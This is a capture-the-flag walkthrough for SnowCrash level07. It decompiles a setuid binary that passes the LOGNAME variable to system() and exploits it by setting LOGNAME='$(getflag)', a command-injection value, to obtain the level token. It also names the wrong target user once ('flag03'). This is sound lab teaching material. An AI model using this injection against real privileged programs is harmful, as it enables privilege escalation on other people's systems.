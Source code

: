 # Level07

## Walkthrough

As usual, let's check if there are some files in the home directory.

```bash
level07@SnowCrash:~$ ls -la
total 24
dr-x------ 1 level07 level07  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level07 level07  220 Apr  3  2012 .bash_logout
-r-x------ 1 level07 level07 3518 Aug 30  2015 .bashrc
-r-x------ 1 level07 level07  675 Apr  3  2012 .profile
-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07
level07@SnowCrash:~$ file level07 
level07: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x26457afa9b557139fa4fd3039236d1bf541611d0, not stripped
```

Again, another script owned by `flag07` with the setuid bit flag. Let's import it with SCP.

```bash
host:~$ scp -P 4242 level07@localhost:level07 level07
```

And let's decompile the executable with dogbolt.

[Link to the decompiled output](https://dogbolt.org/?id=c0805f22-ef97-46b0-83aa-91f95bdac7f7)

By checking the main function, we can figure out that the program:
- calls `getegid()` and `geteuid()` to retrieve the effective group ID and user ID
- sets them with `setresgid()` and `setresuid()` (in our case: `flag03`)
- gets a pointer to the value of the `LOGNAME` environment variable
- uses it in a call to `asprintf()` in order to combine it with the `echo` command
- executes the result in a `system()` call

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char *v3; // eax
  char *v5; // [esp+14h] [ebp-Ch] BYREF
  __gid_t v6; // [esp+18h] [ebp-8h]
  __uid_t v7; // [esp+1Ch] [ebp-4h]

  v6 = getegid();
  v7 = geteuid();
  setresgid(v6, v6, v6);
  setresuid(v7, v7, v7);
  v5 = 0;
  v3 = getenv("LOGNAME");
  asprintf(&v5, "/bin/echo %s ", v3);
  return system(v5);
}
```

The logic is quite symple: we have to write a command substitution to the `LOGNAME` environment variable, which is gonna be executed during the `system()` call.  
If we don't do this, the `getflag` command will be run as `level07` instead of `flag07`.

```bash
level07@SnowCrash:~$ LOGNAME='$(getflag)'
level07@SnowCrash:~$ ./level07 
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

## Resources

[Command substitution](https://www.gnu.org/software/bash/manual/html_node/Command-Substitution.html)
